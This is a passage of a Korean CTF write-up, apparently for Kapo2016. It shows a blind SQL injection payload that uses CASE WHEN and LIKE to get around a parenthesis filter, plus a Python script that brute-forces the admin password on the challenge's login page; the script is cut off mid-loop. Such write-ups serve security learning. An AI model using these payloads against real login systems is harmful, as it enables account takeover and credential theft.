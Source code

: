 이에 착안하여 다음과 같은 payload를 만들 수 있었다.

`fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a`

이를 login의 id에 넣으면 다음과 같은 SQL Query가 완성된다.

```SQL
SELECT * FROM MEMBER WHERE ID = 'fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a
```

괄호가 필터링됨으로 인해 if, substr등의 함수를 사용할 수 없었으므로, 그 대신에 case when과 like를 활용하여 비슷한 역할을 하는 구문을 만들 수 있었다.

ID로 들어가는 `fqwrlqwrhqwklhflqfi123123`은 서버에 등록되어 있지 않은 id이므로, 언제나 거짓을 반환한다. 그 후 `CASE WHEN id='admin' AND pw LikE 'a%' THEN TRUE ELSE FALSE END`를 만나게 되는데, 만약 admin의 pw가 a로 시작한다면 TRUE를, 아니라면 FALSE를 반환한다. 만약 FALSE라면, 뒤의 구문에 의해 `godj3`을 id로서 불러오게 되고, pw부분에 미리 만들어 둔 godj3 계정의 비밀번호를 입력해 두면 godj3계정으로 로그인된다. 만약 admin의 pw가 a로 시작한다면, 미리 입력해 둔 godj3 계정의 비밀번호와 admin의 비밀번호는 맞지 않을 것이므로 로그인에 실패하게 된다. 이를 이용하여 admin의 password를 알아내는 프로그램을 짤 수 있다.

<p align="CENTER">
	<a href="https://github.com/GAONNR/Kapo2016/blob/master/login.py">login.py</a>
</p>

```python
import requests
import string

baseurl = 'http://chall.pwn-with.me/?page=login'

def postData(id, pw):
    params = {'id': id, 'pw': pw}
    res = requests.post(baseurl, data = params)

    #print res.text
    if res.text.find('Hello') > 0:
        return True
    else:
        return False


# print postData('''fqwrlqwrhqwklhflqf' or if(id='admin' and 0, 1, 0) or name='guest' order by name asc -- a''', 'guest')

print postData("fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND FALSE THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a", 'godj3')

print postData('godj3', 'godj3')

print postData("sadawqoeqweqnnncxma' or id='godj3' -- a", 'godj3')

payload = "fqwrlqwrhqwklhflqfi123123' or CASE WHEN id='admin' AND pw LikE '"

payend = "%' THEN TRUE ELSE FALSE END or id='godj3' order by id asc -- a"

key = ''

for k in range(100):
    check = False
    for i in string.printable:
        if i == '_' or i == '!' or i == '#' or i == '%' or i == '\'' or i == '\"' or i == '(' or i == ')' or i == '*' or i == '+' or i == '-' or i == '&' or i == '|' or i == '>' or i == '<' or i == '=' or i == '?' or i == '~' or i == ',':
            continue
        # print key + i,
        # print postData(payload + i + payend, 'godj3')
        if not postData(payload + key + i + payend, 'godj3'):
```